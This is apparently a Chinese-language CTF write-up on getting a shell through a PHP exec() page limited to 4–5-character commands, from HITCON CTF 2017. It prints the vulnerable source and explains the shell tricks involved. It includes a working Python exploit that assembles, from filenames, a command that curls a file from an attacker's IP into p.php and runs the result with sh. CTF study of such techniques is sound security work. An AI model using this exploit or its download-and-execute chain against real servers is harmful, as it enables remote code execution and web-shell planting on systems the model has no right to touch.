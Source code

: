 ```yaml
---
title: 绕过4-5个字符限制getshell
date: 2020-06-02
image: 
description: 由一道CTF题目探究绕过4，	5个字符限制getshell
categories: 
- note
tags:
- RCE bypass
---
```

这个东西起源于HITCON CTF 2017的一道题，高校战疫Hack Me也曾经出现过，最近突然做到了来说一下

参考：https://www.anquanke.com/post/id/87203

------

### 源码

五字版本

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

四字版本：

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

### 预备知识

在cmd长度小于5（4）个字符的时候用 `exec` 函数执行系统命令，不过 `exec` 函数是默认没有回显的，这里我们就只能盲打。

#### Linux用\连接多行命令

Linux系统中支持用 `\` 字符来分割一个多行命令，在一个文件中即使有无法识别的命令，报错，也不会影响其他正常命令执行

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170817.png)

#### 用两个字符在Linux下创建文件

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170833.png)

#### ls的文件排序和ls -t的文件排序

ls

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170844.png)

ls -t

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170853.png)

可以看到， `ls` 是按照alphabet来排序的， `ls -t` 是按照创建时间的顺序来排序的

 

### 分析

我们在原文可以看到，作者通过了创建文件，利用文件名构造curl命令，然后用ls命令追加到一个文件，再用sh命令去执行它

思路显然是非常的爆炸，但是我经过复现之后，发现这种构造很困难，作者利用了IP的16进制、8进制和长整型形式来构造文件名，而且分割之后恰恰又是满足alphabet的，而VPS的ip是固定不变的，想要找一个这样的IP需要一定的巧合。

并且原作者playload的到数第三行：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170902.png)

利用了A文件本身就在ls命令回显的特性，我构造到这里，很难受，这个技巧太高。

#### ls -t 、 rev 、 * 命令结合使用回避alphabet

而在HITCON2017的四字版本里面，有师傅利用 `ls -t` 和 `rev` 和 `*` 避开了这个问题，不过思路也是相当的巧妙

```
import requests
import time

host = '127.0.0.1'

playload = [
 # generate "g> ht- sl" to file "v"
    '>dir',
    '>g\>',
    '>ht-',
    '>sl',
    '*>v',
 # reverse file "v" to file "h", content "ls -th >g"
    '>rev',
    '*v>h',
  # generate "curl 59.xx0.x5x.4>p.php"
    '>\;\\',
    '>p',
    '>ph\\',
    '>p.\\',
    '>\>\\',
    '>4\\',
    '>5x.\\',
    '>0.x\\',
    '>xx\\',
    '>59.\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',
    'sh h',
    'sh g',
]

for i in playload:
    cmd = i
    r = requests.get(host + '?cmd=' + i)
    #print(r.text)
    time.sleep(0.2)
```

这是5字版本的exp，4字版本只需要改一下自己的IP。

其中 `*` 这个命令很有意思

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170912.png)

所以这个方案明显比原来的利用alphabet的排序来写shell好多了